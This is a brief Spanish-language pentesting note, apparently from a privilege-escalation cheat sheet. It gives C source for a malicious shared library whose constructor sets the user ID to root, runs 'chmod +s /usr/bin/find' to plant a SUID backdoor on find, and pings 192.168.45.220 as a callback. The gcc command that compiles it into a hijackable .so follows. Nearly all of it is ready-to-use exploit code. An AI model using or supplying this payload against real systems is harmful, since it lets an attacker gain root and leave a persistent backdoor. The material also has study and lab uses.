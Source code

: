 Si tenemos que crear un ejecutable para escalar privilegios esta opcion es muy interesante ya que le asigana el bit s a find que es muy facil de explotar:

```
# include <stdio.h>
# include <stdlib.h>
# include <sys/types.h>

static void kashz() __attribute__((constructor));
void kashz() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("chmod +s /usr/bin/find");
        system("ping 192.168.45.220 -c 2");
}

```

Compilar con el siguiente comando:

```
gcc -shared -o utils.so -fPIC library.c
```